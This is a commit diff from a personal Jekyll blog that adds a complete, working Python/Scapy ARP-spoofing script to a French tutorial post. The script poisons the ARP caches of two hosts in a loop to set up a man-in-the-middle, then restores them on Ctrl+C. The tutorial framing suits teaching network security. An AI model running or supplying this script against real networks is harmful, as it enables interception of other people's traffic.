

Before and after one commit to theobarrague/theobarrague.github.io, a Jekyll site: the page built from _posts/2021-1-28-arp-spoofing-with-scapy.md, in a window 1280 px wide and 1400 px high, scrolled down 2517 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2861 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2021-1-28-arp-spoofing-with-scapy.md

````diff
--- a/_posts/2021-1-28-arp-spoofing-with-scapy.md
+++ b/_posts/2021-1-28-arp-spoofing-with-scapy.md
@@ -81,3 +81,63 @@ msg = ARP(hwtype=1,
 ```
 
 Que l'on pourrait traduire par `Bonjour Alice ( 1.1.1.1 ) 👋 Mon adresse matérielle est bb:bb:bb:bb:bb:bb`
+
+Ainsi pour faire de l'ARP spoofing, il suffit d'innonder le réseau de fausses requêtes. Voici mon implémentation :
+```python
+#!/usr/bin/env python
+
+from time import sleep
+import signal
+import sys
+
+# Handle CTRL+C / SIGINT to properly stop the attack
+# Rearping targets to restore network
+def signal_handler(sig, frame):
+  global alice_ip
+  global bob_ip
+  global alice_hw
+  global bob_hw
+  print('Network restoration on Alice')
+  send(ARP(pdst=alice_ip, hwdst=alice_hw, psrc=bob_ip, hwsrc=bob_hw, op=2), count=5, inter=.2)
+  print('Network restoration on Bob')
+  send(ARP(pdst=bob_ip, hwdst=bob_hw, psrc=alice_ip, hwsrc=alice_hw, op=2), count=5, inter=.2)
+  sys.exit(0)
+
+signal.signal(signal.SIGINT, signal_handler)
+
+from scapy.all import *
+conf.verb = 0
+
+iface = sys.argv[1]
+alice_ip = sys.argv[2]
+bob_ip = sys.argv[3]
+
+# Grabbing our IP and MAC
+me_ip = get_if_addr(iface)
+me_hw = get_if_hwaddr(iface)
+print('Me ( {0} ) is at {1}'.format(me_ip, me_hw))
+
+# Grabbing Alice MAC
+x = sr1(ARP(pdst=alice_ip), iface=iface, timeout=2)
+alice_hw = x.hwsrc
+print('Alice ( {0} ) is at {1}'.format(alice_ip, alice_hw))
+
+# Grabbing Bob MAC
+x = sr1(ARP(pdst=bob_ip), iface=iface, timeout=2)
+bob_hw = x.hwsrc
+print('Bob ( {0} ) is at {1}'.format(bob_ip, bob_hw))
+
+# Spoofing network
+print('Spoofing in progress ... Send SIGINT to properly stop the attack.')
+while True:
+  # Tell to Alice that we are Bob
+  x = ARP(pdst=alice_ip, hwdst=alice_hw, hwsrc=me_hw, psrc=bob_ip, op=2)
+  send(x)
+
+  # Tell to Bob that we are Alice
+  x = ARP(pdst=bob_ip, hwdst=bob_hw, hwsrc=me_hw, psrc=alice_ip, op=2)
+  send(x)
+
+  # Do not unnecessarily overload the network
+  sleep(5)
+```
````
